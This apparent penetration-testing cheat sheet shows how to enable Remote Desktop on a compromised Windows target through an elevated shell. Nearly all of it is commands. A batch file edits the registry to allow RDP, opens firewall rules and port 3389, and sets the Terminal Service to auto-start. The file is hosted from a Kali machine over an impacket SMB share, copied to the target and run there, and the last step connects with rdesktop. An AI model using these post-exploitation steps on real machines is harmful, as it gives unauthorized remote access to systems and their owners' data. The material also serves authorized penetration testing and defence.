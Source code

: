 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

Start hosting the file on a SMB share.
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```


On the target copy the file and execute it.
```
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```


Now, try to access it
```
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'
```

